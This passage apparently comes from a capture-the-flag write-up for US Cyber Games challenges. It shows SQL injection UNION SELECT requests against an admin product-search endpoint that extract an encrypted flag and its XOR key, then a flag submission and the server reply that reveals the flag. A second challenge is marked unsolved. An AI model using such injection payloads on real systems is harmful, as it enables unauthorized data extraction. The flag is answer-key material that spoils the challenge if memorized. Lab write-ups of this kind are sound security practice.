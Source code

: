 
- now that you're logged 

- use repeater on these endpoints. For the XOR'd `unravel{flag_fake}` and the key `856abadb45ad7751` 

`GET /admin/products?search=widget%27%20UNION%20SELECT%20NULL,xor_encrypted_flag,NULL,NULL%20FROM%20xord_flag-- HTTP/1.1`
`GET /admin/products?search=widget%27%20UNION%20SELECT%20NULL,key,NULL,NULL%20FROM%20xor_encryption_key-- HTTP/1.1` 


- note the key doesn't change. So get the flag and decrypt it and submit within 2minutes to `POST /api/submit_flag HTTP/1.1` 

```json
{
"decrypted_flag": "unravel{flag_cfaa467692feec64}"
}

```


and BINGO... 


```json
HTTP/1.1 200 OK

Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sun, 09 Jun 2024 23:54:02 GMT
Content-Type: application/json
Content-Length: 81
Connection: close

{"message":"Congratulations! The flag is: SIVUSCG{r3vers3_att@cks_c@sh_ch3cks}"}
```




## Emoticonsole - unsolved
### Task 
```
462
Finally, a programming language that is Gen Z approved!

Author: tsuto

https://ctfd.uscybergames.com/files/2a0330a42fa526e85a0e5333b10a8873/program.emo
https://ctfd.uscybergames.com/files/08f708f633199eb11e5113999d3d3d5b/runtime.pyc

```

### My Solve

- used a python decompiler on the .pyc file 
